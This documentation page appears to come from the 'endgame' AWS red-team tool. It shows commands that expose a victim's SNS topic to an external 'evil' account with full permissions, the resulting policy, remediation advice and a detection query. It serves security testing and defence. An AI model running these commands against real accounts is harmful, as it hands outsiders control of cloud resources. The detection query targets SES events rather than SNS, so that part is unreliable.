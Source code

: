 # SNS Topics

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service sns --name test-resource-exposure
```

* To verify that the SNS topic has been shared with the evil principal, run the following from the victim account:

```bash
export VICTIM_RESOURCE=arn:aws:sns:us-east-1:111122223333:test-resource-exposure

aws sns get-topic-attributes \
    --topic-arn $VICTIM_RESOURCE
```

* Observe that the contents match the example shown below.

## Example

The output will have the following structure:

```json
{
    "Attributes": {
        "SubscriptionsConfirmed": "1",
        "DisplayName": "my-topic",
        "SubscriptionsDeleted": "0",
        "EffectiveDeliveryPolicy": "",
        "Owner": "111122223333",
        "Policy": "SeeBelow",
        "TopicArn": "arn:aws:sns:us-east-1:111122223333:test-resource-exposure",
        "SubscriptionsPending": "0"
    }
}
```

The prettified version of the `Policy` key is below. Observe how the content of the policy grants the evil principal's account ID (`999988887777`) maximum access to the SNS topic.

```json
{
  "Version": "2008-10-17",
  "Id": "__default_policy_ID",
  "Statement": [
    {
      "Sid": "Endgame",
      "Effect": "Allow",
      "Principal": {
        "AWS": "999988887777"
      },
      "Action": [
        "SNS:AddPermission",
        "SNS:DeleteTopic",
        "SNS:GetTopicAttributes",
        "SNS:ListSubscriptionsByTopic",
        "SNS:Publish",
        "SNS:Receive",
        "SNS:RemovePermission",
        "SNS:SetTopicAttributes",
        "SNS:Subscribe"
      ],
      "Resource": "arn:aws:sns:us-east-1:111122223333:test-resource-exposure"
    }
  ]
}
```

## Exploitation

```
TODO
```

## Remediation

* **Trusted Accounts Only**: Ensure that SNS Topics are only shared with trusted accounts, and that the trusted accounts truly need access to the SNS Topic.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to SNS Topics. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your SNS Topics**: Tightly control access to the following IAM actions:
  - [sns:AddPermission](https://docs.aws.amazon.com/sns/latest/api/API_AddPermission.html): _Adds a statement to a topic's access control policy, granting access for the specified AWS accounts to the specified actions._
  - [sns:RemovePermission](https://docs.aws.amazon.com/sns/latest/api/API_RemovePermission.html): _Removes a statement from a topic's access control policy._
  - [sns:GetTopicAttributes](https://docs.aws.amazon.com/sns/latest/api/API_GetTopicAttributes.html): _Returns all of the properties of a topic. This includes the resource-based policy document for the SNS Topic, which lists information about who is authorized to access the SNS Topic_
  - [sns:ListTopics](https://docs.aws.amazon.com/sns/latest/api/API_ListTopics.html): _Returns a list of the requester's topics._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='ses.amazonaws.com' AND (eventName='PutIdentityPolicy' or eventName='DeleteIdentityPolicy')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [add-permission](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sns/add-permission.html)